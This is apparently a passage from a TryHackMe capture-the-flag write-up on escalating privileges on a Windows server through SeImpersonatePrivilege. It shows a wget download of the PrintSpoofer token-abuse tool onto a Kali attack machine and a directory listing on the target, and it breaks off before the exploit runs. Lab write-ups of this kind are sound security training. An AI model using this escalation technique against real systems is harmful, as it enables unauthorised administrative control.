 We have SeImpersonatePrivilege which allows us to escalate privileges by abusing tokens. Hacktricks has some good information about this [here](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens). It mentions a few exploits, I've used PrintSpoofer before on another THM room called [Relevant](https://pencer.io/ctf/ctf-thm-relevant/) so I went with that.

## PrintSpoofer

Switch to Kali and grab the PrintSpoofer binary:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
--2021-05-23 21:35:38--  https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://github-releases.githubusercontent.com/259576481/82057700-f39e-11ea-90a9-983c4000cbf3?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20210523%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20210523T203536Z&X-Amz-Expires=300&X-Amz-Signature=8347c16e4cefff6cdaf990b339cad88b8a2d7f2ee734d628bc35be37a94bddbf&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=259576481&response-content-disposition=attachment%3B%20filename%3DPrintSpoofer32.exe&response-content-type=application%2Foctet-stream [following]
--2021-05-23 21:35:38--  https://github-releases.githubusercontent.com/259576481/82057700-f39e-11ea-90a9-983c4000cbf3?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20210523%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20210523T203536Z&X-Amz-Expires=300&X-Amz-Signature=8347c16e4cefff6cdaf990b339cad88b8a2d7f2ee734d628bc35be37a94bddbf&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=259576481&response-content-disposition=attachment%3B%20filename%3DPrintSpoofer32.exe&response-content-type=application%2Foctet-stream
Resolving github-releases.githubusercontent.com (github-releases.githubusercontent.com)... 185.199.109.154, 185.199.110.154, 185.199.108.154, ...
Connecting to github-releases.githubusercontent.com (github-releases.githubusercontent.com)|185.199.109.154|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22016 (22K) [application/octet-stream]
Saving to: ‘PrintSpoofer32.exe’
PrintSpoofer32.exe                                          100%[=========================================================>]  21.50K  --.-KB/s    in 0.006s  
2021-05-23 21:35:38 (3.56 MB/s) - ‘PrintSpoofer32.exe’ saved [22016/22016]
```

Now back on the Windows server, first check where we are:

```text
PS C:\Windows\system32> dir c:\users

    Directory: C:\users

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         2/1/2021  11:03 AM                Administrator                                                         
d-r---        1/30/2021   9:15 AM                Public                                                                
d-----         2/1/2021   8:25 AM                SVC-Kerb.DC01    
```
